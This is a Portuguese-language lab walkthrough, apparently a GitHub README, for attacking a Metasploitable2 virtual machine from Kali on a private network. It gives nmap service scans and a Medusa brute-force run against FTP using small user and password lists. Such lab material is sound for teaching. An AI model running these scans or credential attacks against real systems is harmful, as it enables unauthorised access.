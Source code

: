 # Topologia de rede

Exemplo:
Kali — 192.168.56.4
Metasploitable2 — 192.168.56.3
(Use seu `ifconfig`/`ip a` nas VMs para confirmar). 

---

# Passo a passo dos testes

## 1) Reconhecimento — nmap

Faça varreduras para identificar serviços abertos e versões:

```sh
nmap -v -sV -p 21,22,80,139,445 192.168.56.3
```

Exemplo (saída resumida encontrada nas notas):

* FTP: `vsftpd 2.3.4`
* HTTP: `Apache httpd 2.2.8`
* SMB: `Samba smbd 3.X - 4.X`
  (mais detalhes no arquivo de notas). 

Dica: varredura completa:

```sh
nmap -v 192.168.56.3
```

Isso ajuda a priorizar alvos para brute force. 

---

## 2) Força bruta em FTP (Medusa)

1. Crie listas de usuário e senha (ex.: `users.txt`, `pass.txt`):

```sh
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\nqwerty\nmsfadmin" > pass.txt
```

2. Execute Medusa contra FTP:

```sh
medusa -h 192.168.56.3 -U users.txt -P pass.txt -M ftp -t 6
```

* `-h`: alvo
* `-U`: arquivo de usuários
* `-P`: arquivo de senhas
* `-M ftp`: módulo FTP
* `-t`: threads concorrentes
